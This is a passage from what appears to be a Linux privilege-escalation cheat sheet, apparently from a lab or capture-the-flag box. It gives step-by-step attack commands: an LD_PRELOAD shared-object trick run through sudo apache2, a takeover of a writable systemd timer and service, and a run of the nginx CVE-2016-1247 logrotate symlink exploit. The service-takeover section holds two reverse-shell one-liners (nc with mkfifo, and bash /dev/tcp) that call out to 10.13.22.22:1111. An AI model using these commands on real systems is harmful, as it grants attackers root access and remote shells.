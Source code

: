 *
  1. Save the file as x.c
*
  1. In command prompt type:

```
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
```

*
  1. In command prompt type:

```
sudo LD_PRELOAD=/tmp/x.so apache2
```

*
  1. In command prompt type: `id`

### Sudo -l Service Takeover

* ![alt text](https://miro.medium.com/max/2400/1\*2HVtq5qvZtanx0WlzaN8dg.png)
* We have write access to `vulnnet-auto.timer` and `vulnnet.job.service` which are custom services on the host
* ![alt text](https://miro.medium.com/max/2400/1\*eZ7VQJlIzjIvj4elIpWr9A.png)
* First we modify the `OnCalandar=*:0/30` line to `OnCalandar=*0/1` to make it run every minute versus every 30 minutes
* ![alt text](https://miro.medium.com/max/2400/1\*UNBgv24NMzWawzj2U7qk2g.png)
* Can see that the system executes the `/bin/df` command
* ![alt text](https://miro.medium.com/max/2400/1\*N-S2p6n1i2Q17nLlavjwBQ.png)
* We can modify this to spawn a reverse shell via our script
* Can also call a reverse shell on the box

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.13.22.22 1111 >/tmp/f
bash -i >& /dev/tcp/10.13.22.22/1111 0>&1
```

* We then use our `sudo -l` privlages to restart the service
* ![alt text](https://miro.medium.com/max/2400/1\*JZqSzROFnTD6fNHWEHGSpw.png)

### SUID SYMLINKS CVE-2016-1247

* Detection

```
dpkg -l | grep nginx
```

* Looking for installed nginx version is below 1.6.2-5+deb8u3
* Required you to be the www-data user!
* Run:

```
/tmp/nginxed-root.sh /var/log/nginx/error.log
```

* System will wait for logrotate to execute, become root user
